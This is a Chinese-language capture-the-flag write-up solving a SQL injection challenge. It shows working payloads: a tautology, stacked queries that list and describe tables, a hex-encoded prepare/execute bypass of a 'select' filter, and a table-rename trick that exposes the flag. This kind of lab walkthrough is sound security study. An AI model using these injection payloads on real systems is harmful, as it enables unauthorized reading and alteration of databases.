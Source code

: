 网页提供了一个输入框，点击提交将会发出get请求，参数为inject=\[输入的内容\]。看源码，注释里提示“sqlmap是没有灵魂的”。

我的尝试：

提交`admin' or '1'='1' #`，结果页面上显示这些东西。

```text
array(2) {
 [0]=>
 string(1) "1"
 [1]=>
 string(7) "hahahah"
}

array(2) {
 [0]=>
 string(1) "2"
 [1]=>
 string(12) "miaomiaomiao"
}

array(2) {
 [0]=>
 string(6) "114514"
 [1]=>
 string(2) "ys"
}
```

显然，这应该是查询语句所作用的表的所有记录，一共有3条。

为了找到flag，使用堆叠注入，输入`1';show tables;#`，查询所有表名。发现存在`words`和`1919810931114514`两个表。

<img src="image-20210227195602210.png" alt="image-20210227195602210" style="zoom:67%;" />

再使用desc查看两个表的结构，输入`1';desc words`，`1';desc 1919810931114514;# `。这里有个小trick，使用纯数字表名  要在表名前后加上 ``(这里由于markdown无法转义的问题，所以没有加入到行内代码块中，实际输入要在数字前后加上)。可以看到flag内容位于1919810931114514表中。

<img src="image-20210227202522051.png" alt="words表结构" style="zoom:67%;" />

<img src="image-20210227202426166.png" alt="1919810931114514表结构" style="zoom:67%;" />

接下来要想办法查询到该表中的flag内容。直接堆叠注入查询语句，会发现`select`等关键字都被过滤掉了。

![image-20210227202949683](image-20210227202949683.png)

于是有两种思路

### 思路1

使用MySql的prepare功能，这是一个类似于计划任务的功能。将select查询语句转换为16进制，然后prepare...from...来执行该语句。

```
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```

### 思路2

直接修改表的名字，`rename`/`alter`等关键字是没有被筛选的，所以可以被输入执行。先将`words`表名改为其他名字，再将`1919810931114514`表名改为`words`，就可以从中查询。

```
1';rename table `words` to `123`;rename table `1919810931114514` to `words`;alter table `words` add id int(10);#
```